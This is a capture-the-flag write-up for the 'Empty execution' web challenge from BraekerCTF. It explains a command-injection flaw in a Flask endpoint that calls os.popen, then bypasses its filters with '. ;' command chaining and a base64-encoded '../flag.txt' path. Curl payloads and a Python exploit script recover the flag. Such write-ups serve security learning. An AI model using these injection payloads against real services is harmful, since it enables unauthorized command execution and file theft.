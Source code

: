 ### CTF: BRAEKERCTF


### Challenge:

- Empty execution [web]


### Challenge 1: Empty execution
- The goal of this challenge is to read flag.txt.After reading the source code,I noticed that the webpage is vulnerable to command injection because the
the os method `popen` executes shell commands on the server.

  
            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200
### Security checks
- But the code filters some characters from the user input e.git raises an alert `Hacking attempt detected` if the user input contains '..' or '/'.
It also raises a `command too short` error if the user input is lesser than 5 .

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

- Lastly, it uses the split() method to cut characters before `[space]`, tag it as the variable executable_to_run and use os.access()
to check if the binary or executable can be executed.If it cannot be executed,it raises an error message `Not implemented`.
    
       # Check if we can execute the binary
            if os.access(executable_to_run, os.X_OK):
    
                # Execute binary if it exists and is executable
                out = os.popen(command).read()
                return jsonify({'message': 'Command output: ' + str(out)}), 200
    
        return jsonify({'message': 'Not implemented'}), 501

### Crafting a Payload

- The first step is to bypass the os.access() filter by ensuring that it returns True,I bypassed it with '. ' because the characters '.' and '..' are present in a linux directory.'.' is a link to your current directory and '..' is a link to the parent directory.I added space after '.' to allow the code split '.' and a couple of gibberish text to bypass the length check.
   
      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". zzzzz"}' -H 'Content-Type: application/json'                                                    
      {"message":"Command output: "}

- Now we can execute commands,but I placed ";" after the space to execute close the first statement and execute nother statement.The next step was to find binaries to read the flag.I was able to use `which` to locate binaries and it worked.The `which` binary is used to find binaries path.Using which to find base64 and echo binaries' path confirmed the existence of the binaries on the server.

      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;which base64;which echo"}' -H 'Content-Type: application/json'
      {"message":"Command output: /bin/base64\n/bin/echo\n"}

- Now we can craft a payload with base64 and echo,I was able to craft this payload `base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)`.I encoded '../flag.txt' with base64 since flag.txt is not present in the current directory, we will need to move up one directory and .. and / are both filtered by the code.Echo pipes it to base64 which decodes it and the process is executed with $().Base64 can read files passed to it and return it in base64 encoded text.The flag is encoded and returned back to us in base64 text.

        curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)"}' -H 'Content-Type: application/json'
      {"message":"Command output: YnJja3tDaDMzcl9VcF9CdWRkWV9KVTV0XzN4M0N1dDNfNF9EMXJlQ1Qwcnl9\n"} 

- I automated it with python to receive the flag and decode it.

      #! /usr/bin/env python3
      import requests
      import json
      import base64
      headers = {"Content-Type": "application/json"}
      data = data = {'command':'. ;base64 $(echo \'Li4vZmxhZy50eHQK\' | base64 -d)'}
      response = requests.post("https://braekerctf-empty-execution.chals.io/run_command",data=json.dumps(data),headers=headers).text
      encodedFlag=json.loads(response)["message"].split('Command output: ')[1].encode()
      print(base64.b64decode(encodedFlag).decode())

- Flag

      $ ./emptyexec.py
        brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
